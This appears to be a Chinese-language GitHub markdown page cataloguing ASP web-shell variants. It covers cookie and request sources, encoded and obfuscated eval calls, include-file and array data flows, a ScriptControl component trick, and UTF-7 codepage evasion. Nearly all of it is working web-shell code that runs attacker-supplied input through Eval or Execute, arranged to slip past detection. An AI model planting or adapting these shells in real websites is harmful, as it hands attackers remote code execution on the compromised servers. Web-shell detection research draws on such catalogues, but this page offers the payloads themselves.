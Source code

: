 
# source

#### cookie
```
请求包
GET /1.asp HTTP/1.1
Host: 192.168.66.134
Cookie: response.write(111)'
```

```
<%
eval(""+Request.Cookies)
%>
```

#### 编码
```
<%execute(unescape("eval%20request%28%22aaa%22%29"))%>
```

```
<%Eval(Request(chr(35)))%>
```

#### 语法
```
<%Eval(Request(chr(35))+"")%>
```

# 数据流
#### 文件
1.asp
```
<%
code=Request(1)
%>
```

2.asp
```
<!--#include file="1.asp" -->
<%
response.write(code)
%>
```

访问2.asp?1=response.write(1111)


#### 函数传递
```
<%@LANGUAGE="javascript"%>
<%
param=Request(1)+''
func=eval
func(param)
%>
```

#### 数组
```
<%
x=Request(1)
param = Array(x,"xxx")
eval(param(0))
%>
```


#### 多个<%%>
```
<%code=Request(1)%>

<%
Eval(code+"")
%>
```

# sink

#### 代码执行
Eval、Execute、ExecuteGlobal

#### 组件
2003可以，2008找不到组件
```
<%
set ms = server.CreateObject("MSScriptControl.ScriptControl.1")
ms.Language="VBScript"
ms.AddObject "Response", Response
ms.AddObject "request", request
ms.AddObject "session", session
ms.AddObject "server", server
ms.AddObject "application", application
ms.ExecuteStatement ("ex"&"e"&"cute(request(1))")%>
```

#### utf7编码
```
<%@ codepage=65000%><% response.Charset="936"%>
<%
e+j-v+j-a+j-l(request(1))
%>
```
